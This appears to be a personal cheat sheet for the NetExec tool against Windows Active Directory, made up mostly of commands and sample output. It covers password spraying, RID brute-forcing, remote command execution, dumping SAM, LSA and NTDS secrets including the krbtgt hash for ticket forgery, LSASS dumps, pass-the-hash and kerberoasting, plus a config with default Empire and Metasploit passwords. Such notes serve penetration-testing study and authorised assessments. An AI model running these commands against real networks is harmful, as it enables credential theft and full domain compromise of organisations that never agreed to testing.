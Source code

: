 ```yaml
---
title: NetExec-overview-AD
date: 2024-01-22 10:00:00
categories: [tool, active_directory]
tags: [windows, privesc, enumeration]    # TAG names should always be lowercase
image: https://cloud.githubusercontent.com/assets/5151193/17577511/d312ceb4-5f3b-11e6-8de5-8822246289fd.jpg
---
```

## My notes for the <a href="https://github.com/Pennyw0rth/NetExec">Netexec</a> tool

Enumeration:

```bash
nxc smb -h
```

```bash
nxc smb <URL>
SMB <URL> 445  DC-DC [*] Windows 10.0 Build 20348 x64 (name: DC-DC) (domain: dc.local) (signing: True) (SMBv1:False)
```

Name: PC’s name

domain: domain’s name

SMBv1:True (Possible Eternal Blue exploit)

Check for acounts:

```bash
nxc smb <URL> -u 'guest' -p ''

SMB   <URL>   445   DC-DC   [*] Windows 10.0 Build 20348 x64 (name: DC-DC) (domain: dc.local) (signing: True) (SMBv1:False)
SMB   <URL>   445   DC-DC   [-] dc.local\guest: STATUS_ACCOUNT_DISABLED
```

With a file:

```bash
nxc smb <URL> -u 'usern.name' -p 'password_file.txt'
```

```bash
SMB   <URL>   445   DC-DC   [*] Windows 10.0 Build 20348 x64 (name: DC-DC) (domain: dc. local) (signing:True) (SMBv1:False)
SMB   <URL>   445   DC-DC   [-] dc.local\name.surname:password STATUS_LOGON_FAILURE
SMB   <URL>   445   DC-DC   [-] dc.local\name.surname:Password123 STATUS_LOGON_FAILURE
SMB   <URL>   445   DC-DC   [-] dc.local\name.surname:Summer2023! STATUS_LOGON_FAILURE
SMB   <URL>   445   DC-DC   [+] dc. local\name.surname:SeekTheCheapestRoute!
```

Pass the password:

```bash
nxc smb <URL> -u 'user_file.txt' -p '<found_password>'
```

With credentials: (enumerate users and groups)

```bash
nxc smb <URL> -u 'user.name' -p 'found_password' --rid-brute
```

With`--log` you can log a specific command to a specific file

config file:

```bash
/home/kali/.nxc/nxc.conf
[nxc]
workspace = default
last_used_db = smb
pwn3d_label = Pwn3d!
audit_mode =
reveal_chars_of_pwd = 0
log_mode = False <--- if True generates log in the "/home/kali/.nxc/logs" folder
ignore_opsec = True
host_info_colors = ["green", "red", "yellow", "cyan"]

[BloodHound]
bh_enabled = False
bh_uri = 127.0.0.1
bh_port = 7687
bh_user = neo4j
bh_pass = neo4j

[Empire]
api_host = 127.0.0.1
api_port = 1337
username = empireadmin
password = password123

[Metasploit]
rpc_host = 127.0.0.1
rpc_port = 55552
password = abc123
```

Kerberos Auth:

```bash
nxc smb <URL> -u 'user.name' -p 'found_password' -k
```

If you have a tgt ticket:

```bash
export KRB5CCNAME=ticket.ccache
nxc smb <URL> -u 'user.name' -p 'found_password' --use-kcache
```

Execute commands:

```bash
nxc smb <URL> -u 'user.name' -p 'found_password' -x 'command' <--- cmd
nxc smb <URL> -u 'user.name' -p 'found_password' -X 'command' <--- Powershell
nxc smb <URL> -u 'user.name' -p 'found_password' -x 'powershell.exe -c "GCI C:\\"' <--- Powershell without obfuscation
```

If you got admin the first thing to do is dump the sam/lsa:

```bash
nxc smb <URL> -u 'Administrator' -p 'admin_pass' --sam 
```

```bash
nxc smb <URL> -u 'Administrator' -p 'admin_pass' --lsa
```

Auth with Hash:

```bash
nxc smb <URL> -u 'INSMOUYH-DC$' -H <hash>
```

PC name needed.

ntds dump:

```bash
nxc smb <URL> -u 'INSMOUYH-DC$' -H <hash> --ntds
```

ntds dump of a single user: (better krbtgt)

```bash
nxc smb <URL> -u 'INSMOUYH-DC$' -H <hash> --ntds --user krbtgt
```

With the hash of the krbtgt we can forge our own tickets.

Modules:

```bash
nxc smb <URL> -u 'Administrator' -p 'admin_pass' -M nanodump
```

Get lsass dump and parse the result with pypykatz

```bash
nxc smb <URL> -u 'Administrator' -p 'admin_pass' -M lsassy
```

Dumps lsass and parse the result remotely with lsassy

Put files in the smb share:

```bash
nxc smb <URL> -u 'Administrator' -p 'admin_pass' --put-file file.txt '\\file.txt'
```

### LDAP

```bash
nxc ldap -L <--list modules
```

Kerberoast:

```bash
nxc ldap <URL> -u 'Administrator' -p 'admin_pass' --kerberoasting outfile.txt
```